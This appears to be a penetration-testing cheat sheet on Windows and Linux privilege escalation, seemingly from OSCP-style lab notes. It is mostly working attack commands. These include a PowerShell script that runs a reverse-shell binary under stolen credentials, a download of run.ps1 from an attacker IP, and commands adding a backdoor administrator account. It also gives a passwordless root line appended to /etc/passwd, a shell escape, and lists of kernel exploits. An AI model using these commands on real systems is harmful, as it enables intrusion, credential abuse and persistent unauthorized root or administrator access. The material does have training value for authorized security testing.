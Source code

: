 # Privilege Escalation

## Windows

```text
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
net user
```

### Change User

{% code title="run.ps1" %}
```text
$secpasswd = ConvertTo-SecureString "aliceishere" -AsPlainText -Force
$mycreds = New-Object System.Management.Automation.PSCredential ("alice",
$secpasswd)
$computer = "BETHANY"
[System.Diagnostics.Process]::Start("C:\Windows\temp\reverse.exe","<argument>",
$mycreds.Username, $mycreds.Password, $computer)
```
{% endcode %}

```text
powershell -ExecutionPolicy Bypass -File c:\Windows\temp\run.ps1
```

```text
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.98/run.ps1','C:\Users\Bethany\run.ps1')"
```

```text
net user <username> <password> /add
net localgroup Administrators <username> /add
```

```text
start RDP
```

```text
wmic qfe get Caption,Description,HotFixID,InstalledOn
wmic os get osarchitecture
```

* KiTrap0D \(KB979682\)
* MS11-011 \(KB2393802\)
* MS10-059 \(KB982799\)
* MS10-021 \(KB979683\)
* MS11-080 \(KB2592799\)

### Kernel

![https://github.com/khr0x40sh/OSCP-2/blob/master/Windows/WinPrivCheck.bat](.gitbook/assets/image.png)

## Linux

### Writable /etc/passwd

```text
echo 'dummy::0:0::/root:/bin/bash' >>/etc/passwd
```

### Linux Kernel 2.6 UDEV

* [http://www.madirish.net/370](http://www.madirish.net/370)

### Break out from jail shell

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

## References

### Linux

* [https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
* [https://www.hackingarticles.in/linux-privilege-escalation-via-automated-script/](https://www.hackingarticles.in/linux-privilege-escalation-via-automated-script/)

### Windows

* [http://www.fuzzysecurity.com/tutorials/16.html](http://www.fuzzysecurity.com/tutorials/16.html)
* [https://guif.re/windowseop](https://guif.re/windowseop)
* [https://github.com/infoskirmish/Window-Tools/tree/master/Simple%20Reverse%20Shell](https://github.com/infoskirmish/Window-Tools/tree/master/Simple%20Reverse%20Shell)
* [https://guide.offsecnewbie.com/privilege-escalation/windows-pe](https://guide.offsecnewbie.com/privilege-escalation/windows-pe#windows-ms-11-080)

### Popular Linux Kernel Exploit

1. [https://git.zx2c4.com/CVE-2012-0056/about/\#mempodipper](https://git.zx2c4.com/CVE-2012-0056/about/#mempodipper)
2. [http://www.madirish.net/370](http://www.madirish.net/370)

### Popular Windows Kernel Exploit

1. Kitrap0D



